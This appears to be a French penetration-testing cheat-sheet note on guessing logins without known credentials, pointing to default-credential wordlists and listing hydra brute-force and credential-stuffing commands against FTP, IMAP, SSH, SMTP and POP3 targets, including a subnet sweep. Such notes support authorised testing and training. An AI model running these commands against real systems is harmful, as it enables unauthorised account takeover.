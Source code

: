```yaml
---
public: true # set to true to make the article publishable
---
```


## Sans connaitre un identifiant ou mot de passe

### Comptes par défaut ou très fréquemment utilisés

Selon le service à attaquer, on pourra utiliser hydra avec le paramètre `-C` et fournir un dictionnaire (wordlist) contenant des couples `utilisateur:mot_de_passe` séparés par un `:`

Plusieures wordlist de ce type sont disponibles dans `/usr/share/seclists/Passwords/Default-Credentials/` (notamment `ftp-betterdefaultpasslist.txt`)

### Tenter des utilisateurs et mots de passe communs

####  Liste de comptes utilisateurs
On 


```
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN

# credential stuffing
hydra -C user_pass.list ssh://$TARGET_IP
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh

# bruteforce mail service password for known user
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP smtp -t 64  
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP pop3 -t 64 
hydra -l 'rebrec@domain.com' -P password.list  $TARGET_IP imap -t 64 

```
Plus d'exemple d'utilisation de l'outil : [[Hydra]]
